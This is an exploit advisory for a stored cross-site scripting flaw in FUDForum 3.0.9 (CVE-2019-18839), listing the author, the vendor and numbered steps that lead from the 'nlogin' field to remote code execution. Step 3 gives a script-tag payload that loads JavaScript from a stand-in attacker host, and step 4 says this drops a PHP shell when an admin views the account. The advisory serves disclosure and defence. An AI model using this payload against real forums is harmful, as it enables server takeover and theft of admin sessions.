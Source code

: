 # FUDForum 3.0.9 - Stored XSS / Remote Code Execution [via Forum]

- Date                  : 11/8/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http://fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
- CVE                   : CVE-2019-18839

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the "nlogin" parameter. This may result in remote code execution. An attacker can use a user account to fully compromise the system using a POST request. When the admin visits the user information the payload will execute. This will allow for PHP files to be written to the web root, and for code to execute on the remote server.

Notes: 

1. Register an account and log in to the forum.

2. Go to the user control panel. -> Account Settings -> change login

3. Insert javascript payload <script/src="http://attacker.machine/fud.js"></script>

4. When the admin visits the user information the payload will fire, uploading a php shell on the remote system.
